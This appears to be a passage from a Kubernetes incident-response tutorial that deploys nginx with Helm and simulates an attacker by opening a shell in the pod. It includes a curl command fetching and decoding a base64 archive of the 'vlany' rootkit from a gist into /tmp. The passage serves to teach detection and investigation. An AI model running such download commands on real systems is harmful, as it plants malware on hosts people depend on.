 We will go now go through a incident response workflow and how you can investigate an event.

Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and its name by running  
`kubectl get po -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz
tar zxvf vlany-master.tar.gz`
